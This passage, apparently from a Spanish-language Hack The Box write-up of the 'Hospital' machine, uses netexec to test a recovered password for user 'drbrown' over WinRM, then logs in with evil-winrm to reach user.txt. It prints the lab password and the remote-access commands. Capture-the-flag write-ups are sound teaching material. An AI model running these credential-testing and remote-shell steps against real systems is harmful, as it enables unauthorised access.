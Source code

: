 ![](/assets/img/HTB-Hospital/8_Hospital.png)

Podemos ver si es válida para el usuario `drbrown` y de paso vemos si pertenece al grupo `remote management user` para ganar acceso haciendo uso de `evil-winrm`.

```bash
netexec winrm hospital.htb -u 'drbrown' -p 'chr!$br0wn'

WINRM       10.10.11.241    5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:hospital.htb)
WINRM       10.10.11.241    5985   DC               [+] hospital.htb\drbrown:chr!$br0wn (Pwn3d!)
```

Nos pone un `Pwn3d`, por ende ya podríamos hacer uso de `evil-winrm` y de paso vemos la primera parte de la máquina, la `user.txt`.

```bash
evil-winrm -u 'drbrown' -p 'chr!$br0wn' -i hospital.htb
```

![](/assets/img/HTB-Hospital/9_Hospital.png)
